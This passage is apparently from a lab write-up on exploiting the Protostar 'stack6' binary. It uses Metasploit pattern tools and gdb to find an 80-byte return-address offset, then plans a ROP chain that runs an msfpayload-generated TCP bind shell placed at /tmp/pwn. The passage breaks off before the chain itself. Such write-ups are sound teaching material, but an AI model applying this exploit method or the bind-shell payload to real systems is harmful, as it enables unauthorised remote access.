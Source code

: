 We'll use Metasploit's `pattern_create` and `pattern_offset` tools to help us figure this one out.

	:::bash
	root@kali:~# /usr/share/metasploit-framework/tools/pattern_create.rb 100 > inputroot@kali:~# gdb -q ./stack6
	Reading symbols from /root/stack6...done.
	gdb$ r < input
	input path please: got path Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0x0000006E  EBX: 0xF7FBBFF4  ECX: 0xFFFFD408  EDX: 0xF7FBD360  o d I t S z A P c 
	  ESI: 0x00000000  EDI: 0x00000000  EBP: 0x63413563  ESP: 0xFFFFD490  EIP: 0x37634136
	  CS: 0023  DS: 002B  ES: 002B  FS: 0000  GS: 0063  SS: 002BError while running hook_stop:
	Cannot access memory at address 0x37634136
	0x37634136 in ?? ()
	gdb$ q
	root@kali:~# /usr/share/metasploit-framework/tools/pattern_offset.rb 0x37634136
	[*] Exact match at offset 80

Great so now we know that we need a payload with 80 junk bytes before we overwrite the return address of the `getpath()` function.

## Plan

Now let's do some planning. Our goal will be to use a ROP chain to execute a TCP bind shell. We will use Metasploit to generate our bind shell and copy it over to the target as `/tmp/pwn`:

	:::bash
	root@kali:~# msfpayload linux/x86/shell_bind_tcp X > linux-bind-shell-tcp
	Created by msfpayload (http://www.metasploit.com).
	Payload: linux/x86/shell_bind_tcp
	 Length: 78
	Options: {}

We will cause the target program to execute the bind shell with the following command:

	:::c
	execv("/tmp/pwn", {NULL}, {NULL})

Let's break this down into steps:

1. Get our arguments into memory. We just need to get the string `/tmp/pwn` into memory and follow it with a `NULL`.
2. Setup registers.
  * Get argument of first argument into `ebx`.
  * Move address of second argument into `ecx`.
  * Move address of third argument into `edx`.
3. Call `execv`.
  * Move system call number `0x0b` into `eax`.
  * Call `int 0x80` to envoke the call.

### Getting our arguments into memory
